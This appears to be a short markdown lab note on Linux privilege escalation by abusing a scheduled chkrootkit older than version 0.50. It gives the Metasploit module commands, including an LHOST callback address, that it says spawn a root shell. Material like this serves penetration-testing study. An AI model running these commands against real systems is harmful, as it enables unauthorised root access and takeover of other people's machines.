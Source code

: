 # Exploiting a Vulnerable Program/Service

- One method of escalating Linux privileges is by exploiting an existing vulnerable program on the target.
- In our case if we check the running programs using `ps aux` command. 
- The system executes a program called `chkrootkit`  every 60 seconds.
- The versions before `chkrootkit 0.50` are vulnerable to Local Privilege Escalation  
```
use exploit/unix/local/chkrootkit
set SESSION 2
set CHKROOTKIT /usr/local/bin/chkrootkit
set LHOST 192.177.124.2
exploit
```

This exploit runs and spawns a ROOT shell!!
